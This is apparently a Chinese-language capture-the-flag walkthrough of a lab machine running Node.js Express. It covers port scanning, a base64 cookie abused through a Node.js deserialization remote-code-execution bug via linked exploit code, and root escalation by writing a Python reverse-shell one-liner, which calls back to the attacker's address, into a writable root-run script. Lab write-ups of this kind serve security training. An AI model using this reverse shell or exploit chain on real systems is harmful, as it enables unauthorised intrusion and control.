










# 信息搜集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.85 -oA scans/ports
...
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
...
```

## Web - port 3000

就开了个3000端口，访问看看



```
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Mon, 02 Apr 2018 00:47:44 GMT; HttpOnly
Content-Type: text/html; charset=utf-8
Content-Length: 12
ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
Date: Mon, 02 Apr 2018 00:32:44 GMT
Connection: close

<h1>404</h1>
```

刷新时，页面将返回：



```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 21
ETag: W/"15-iqbh0nIIVq2tZl3LRUnGx4TH3xg"
Date: Mon, 02 Apr 2018 00:33:59 GMT
Connection: close

Hey Dummy 2 + 2 is 22
```

可以注意到：cookie是 base64 编码的。



# 漏洞检测与利用

使用bp抓包修改请求包并查看。



随便改个数字3在burpsuite上配置编码为base64得到如下报错信息



看显示是跟nodejs有关，搜索了下对应名称是否含有漏洞，确认存在反序列化远程代码执行漏洞，参考链接：https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

再搜索下exploit ，具体exploit地址：https://hd7exploit.wordpress.com/2017/05/29/exploiting-node-js-deserialization-bug-for-remote-code-execution-cve-2017-5941/

exploit代码：https://github.com/hoainam1989/training-application-security/blob/master/shell/node_shell.py.

具体操作如下：





成功反弹shell，获取了user.txt信息，尝试提权，执行了sudo -l需要无果，看到当前目录含有一个脚本



显示脚本是在运行，下载pspy到目标靶机执行得到如下结果.

> https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1



确认文件script.py可以写入文件，使用vi编辑器写入反弹代码

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.5",8844));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

等待反弹shell，差不多等了5-10分钟成功反弹shell

